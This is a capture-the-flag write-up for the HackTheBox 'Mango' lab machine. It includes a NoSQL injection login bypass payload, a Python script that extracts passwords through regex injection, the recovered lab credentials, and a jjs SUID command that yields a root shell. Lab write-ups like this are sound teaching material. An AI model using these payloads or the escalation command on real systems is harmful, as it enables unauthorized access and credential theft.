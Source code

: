 ```yaml
---
layout: post
title: HackTheBox Mango (10.10.10.162) Writeup
description: >
  Hackthebox Mango Writeup
image: /assets/img/mango.png
noindex: true
---
```


First start with an nmap scan

```
Nmap scan report for 10.10.10.162
Host is up, received user-set (0.059s latency).
Scanned at 2019-10-26 15:04:48 EDT for 17s
Not shown: 997 closed ports
Reason: 997 resets
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXYCdNRHET98F1ZTM+H8yrD9KXeRjvIk9e78JkHdzcqCq6zcvYIqEZReb3FSCChJ9mxK6E6vu5xBY7R6Gi0V31dx0koyaieEMd67PU+9UcjaAujbDS3UgYzySN+c5GV/ssmA6wWHu4zz+k+qztqdYFPh0/TgrC/wNPWHOKdpivgoyk3+F/retyGdKUNGjypXrw6v1faHiLOIO+zNHorxB304XmSLEFswiOS8UsjplIbud2KhWPEkY4s4FyjlpfpVdgPljbjijm7kcPNgpTXLXE51oNE3Q5w7ufO5ulo3Pqm0x+4d+SEpCE4g0+Yb020zK+JlKsp2tFJyLqTLan1buN
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqSZ4iBMzBrw2lEFKYlwO2qmw0WPf76ZhnvWGK+LJcHxvNa4OQ/hGuBWCjVlTcMbn1Te7D8jGwPgbcVpuaEld8=
|   256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB1sFdLYacK+1f4J+i+NCAhG+bj8xzzydNhqA1Ndo/xt
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/emailAddress=admin@mango.htb/organizationalUnitName=None/localityName=None
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/emailAddress=admin@mango.htb/organizationalUnitName=None/localityName=None
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
| SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
| -----BEGIN CERTIFICATE-----
| MIIEAjCCAuqgAwIBAgIJAK5QiSmoBvEyMA0GCSqGSIb3DQEBCwUAMIGVMQswCQYD
| VQQGEwJJTjENMAsGA1UECAwETm9uZTENMAsGA1UEBwwETm9uZTEXMBUGA1UECgwO
| TWFuZ28gUHJ2IEx0ZC4xDTALBgNVBAsMBE5vbmUxIDAeBgNVBAMMF3N0YWdpbmct
| b3JkZXIubWFuZ28uaHRiMR4wHAYJKoZIhvcNAQkBFg9hZG1pbkBtYW5nby5odGIw
| HhcNMTkwOTI3MTQyMTE5WhcNMjAwOTI2MTQyMTE5WjCBlTELMAkGA1UEBhMCSU4x
| DTALBgNVBAgMBE5vbmUxDTALBgNVBAcMBE5vbmUxFzAVBgNVBAoMDk1hbmdvIFBy
| diBMdGQuMQ0wCwYDVQQLDAROb25lMSAwHgYDVQQDDBdzdGFnaW5nLW9yZGVyLm1h
| bmdvLmh0YjEeMBwGCSqGSIb3DQEJARYPYWRtaW5AbWFuZ28uaHRiMIIBIjANBgkq
| hkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA5fimSfgq3xsdUkZ6dcbqGPDmCAJJBOK2
| f5a25At3Ht5r1SjiIuvovDSmMHjVmlbF6qX7C6f7Um+1Vtv/BinZfpuMEesyDH0V
| G/4X5r6o1GMfrvjvAXQ2cuVEIxHGH17JM6gKKEppnguFwVMhC4/KUIjuaBXX9udA
| 9eaFJeiYEpdfSUVysoxQDdiTJhwyUIPnsFrf021nVOI1/TJkHAgLzxl1vxrMnwrL
| 2fLygDt1IQN8UhGF/2UTk3lVfEse2f2kvv6GbmjxBGfWCNA/Aj810OEGVMiS5SLr
| arIXCGVl953QCD9vi+tHB/c+ICaTtHd0Ziu/gGbdKdCItND1r9kOEQIDAQABo1Mw
| UTAdBgNVHQ4EFgQUha2bBOZXo4EyfovW+pvFLGVWBREwHwYDVR0jBBgwFoAUha2b
| BOZXo4EyfovW+pvFLGVWBREwDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsF
| AAOCAQEAmyhYweHz0az0j6UyTYlUAUKY7o/wBHE55UcekmWi0XVdIseUxBGZasL9
| HJki3dQ0mOEW4Ej28StNiDKPvWJhTDLA1ZjUOaW2Jg20uDcIiJ98XbdBvSgjR6FJ
| JqtPYnhx7oOigKsBGYXXYAxoiCFarcyPyB7konNuXUqlf7iz2oLl/FsvJEl+YMgZ
| YtrgOLbEO6/Lot/yX9JBeG1z8moJ0g+8ouCbUYI1Xcxipp0Cp2sK1nrfHEPaSjBB
| Os2YQBdvVXJau7pt9zJmPVMhrLesf+bW5CN0WpC/AE1M1j6AfkX64jKpIMS6KAUP
| /UKaUcFaDwjlaDEvbXPdwpmk4vVWqg==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 26 15:05:05 2019 -- 1 IP address (1 host up) scanned in 17.81 seconds
```
Doing some quick enumeration on port 80 will reveal there is nothing there. The nmap scan reveals a commonName ```stagin-order.mango.htb``` so after adding that to my ```/etc/hosts``` file I am greated with a login page.

![login.png](../../_resources/82ac7a3065cf4f50af77ab3f0aef4ece.png)

After some much wasted time I was able to deternine that the box was running MongoDB and required a NoSQL injection. Using *[this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)* I was able to use an authentication bypass exploit using burp.
<br>

I started up burp and intercepted the login request. Then I replaced what was in the data field with ```username[$ne]=toto&password[$ne]=toto```. The request should look something like this.

![request.png](../../_resources/a07932a1ed194b71bf5f2a4a1447121e.png)

Now I forwarded that request and was greeted with a new page ```http://http://staging-order.mango.htb/home.php```.

![plantation.png](../../_resources/822e1bc164ff46eb9cea6e316a10d469.png)

Now that I am authenticated with the system, I need some way to get some valid credentials so I can gain access to the system. Doing some research there is a way to extract passwords using a python script if you have the correct users. Once you see it start printing multiple '$' then then password is everything before it.

```
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                
                post_data = {'username':username, 'password[$regex]':"^" + payload, 'login':'login'}
                r = requests.post(url, data=post_data, allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)
                        
                        exit(0)
                    break
```
For the users I pretty much just guessed ```admin``` and ```mango```. Doing that gave me these credentials
```
user:mango pass:h3mXK8RhU~f{]f5H
user:admin pass:t9KcS3>!0B#2
```
Using this I was able to SSH in as the user mango and then use the command ```su admin``` to change to the admin user. From there I was able to grab the user flag.
```
$ cat user.txt
79bf31c6c6eb38***************
```
Next step was to run a linux enum script. I chose the linux smart enumeration script. Running that instantly reveals something interesting
```
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/bin/run-mailcap
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Some unusual SUID binaries. Taking a look at GTFOBins shows me that ```jjs``` is vulnerable to SUID privilege escalation So thats where I am going to focus my attention. The default command they tell me to run doesnt work. It just hangs and does allow me to execute anything so I had to modify it a little bit to get it to work.
```
Default Command:
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs

Working Command:
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc \$@|bash\${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Executing the command you see I get a root shell. The only drawback is that I am unable to see anything that I type but the commands are executed
```
$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc \$@|bash\${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc $@|bash${IFS}-p _ echo bash -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
bash-4.4#
```
So if I type ```cat /root/root.txt``` then it will output the root flag
```
bash-4.4# 8a8ef79a7a2fbb0**************
```

